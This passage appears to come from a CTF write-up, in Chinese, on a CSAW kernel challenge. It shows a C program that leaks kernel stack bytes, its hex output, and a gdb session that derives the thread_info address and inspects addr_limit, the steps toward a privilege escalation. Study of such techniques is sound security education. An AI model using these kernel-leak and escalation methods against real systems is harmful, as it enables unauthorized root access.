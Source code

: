 ```c
        printf("%02hhx ", csaw_stats.version[8+i]);
    printf("\n");

    return 0;
}
```
看下执行结果：
```
w0lfzhang@w0lfzhang-666:~/Desktop/Brad-Oberberg/solution$ ./leak
30 0b 47 05 1a 7f 00 00 18 ff ce 77 00 88 ff ff 98 54 73 81 ff ff ff ff 58 fe ce 77 00 88 ff ff 86 00 00 00 00 00 00 00 68 fe ce 77 00 88 ff ff 86 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 68 fe ce 77 00 88 ff ff d0 c7 73 7a 00 88 ff ff 31 01 00 00 00 00 00 00 40 a6 74 78 00 88 ff ff 78 fe ce 77 00 88 ff ff ec 3d 11 81 ff ff ff ff a8 fe ce 77 00 88 ff ff 
```
可以看到里面泄露了很多stack的地址，(0xffff880000000000-0xffff8800c0000000)，我们可以随便取一个，然后计算得到thread_info的地址：
```
gdb-peda$ x/2gx $rsp
0xffff880078941ea0:	0xffffffff811d4ea6	0xffff880078941ec8
gdb-peda$ p/x 0xffff880078941ea0 & ~0x1fff
$1 = 0xffff880078940000
gdb-peda$ x/2gx 0xffff880078940000
0xffff880078940000:	0xffff88002d9e97f0	0xffffffff81c39320
gdb-peda$ p (struct thread_info)*0xffff880078940000
$2 = {
  task = 0xffff88002d9e97f0, 
  exec_domain = 0xffffffff81c39320 <default_exec_domain>, 
  flags = 0x80000, 
  status = 0x0, 
  cpu = 0x0, 
  saved_preempt_count = 0x80200000, 
  addr_limit = {
    seg = 0xffffffffffffffff
  }, 
  restart_block = {
    fn = 0xffffffff8107c0b0 <do_no_restart_syscall>, 
    {
      futex = {
        uaddr = 0x14ceb30, 
        val = 0x5, 
        flags = 0x1, 
        bitset = 0x49, 
        time = 0x23c4af7d, 
        uaddr2 = 0x0 <irq_stack_union>
      }, 
      nanosleep = {
        clockid = 0x14ceb30, 
        rmtp = 0x100000005, 
        compat_rmtp = 0x49 <irq_stack_union+73>, 
        expires = 0x23c4af7d
      }, 
      poll = {
        ufds = 0x14ceb30, 
        nfds = 0x5, 
        has_timeout = 0x1, 
        tv_sec = 0x49, 
        tv_nsec = 0x23c4af7d
      }
    }
  }, 
  sysenter_return = 0x0 <irq_stack_union>, 
  sig_on_uaccess_error = 0x0, 
  uaccess_err = 0x0
}
gdb-peda$ p &default_exec_domain 
```